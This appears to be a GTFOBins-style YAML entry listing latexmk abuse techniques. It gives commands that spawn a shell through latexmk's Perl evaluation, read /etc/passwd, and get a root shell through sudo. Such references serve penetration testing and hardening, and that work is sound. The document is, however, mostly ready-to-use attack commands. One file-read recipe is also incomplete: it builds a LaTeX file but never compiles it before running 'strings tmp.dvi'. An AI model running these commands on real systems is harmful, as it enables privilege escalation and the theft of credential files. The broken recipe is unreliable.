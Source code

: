 ```yaml
---
description: This allows to execute [`perl`](/ptbins/perl/) code.
functions:
  shell:
    - code: |
        latexmk -e 'exec "/bin/sh";'
    - code: |
        latexmk -latex='/bin/sh #' /dev/null
  file-read:
    - code: |
        latexmk -e 'open(X,"/etc/passwd");while(<X>){print $_;}exit'
    - description: The read file will be part of the output.
      code: |
        TF=$(mktemp)
        echo '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}' >$TF
        strings tmp.dvi
  sudo:
    - code: sudo latexmk -e 'exec "/bin/sh";'
---
```

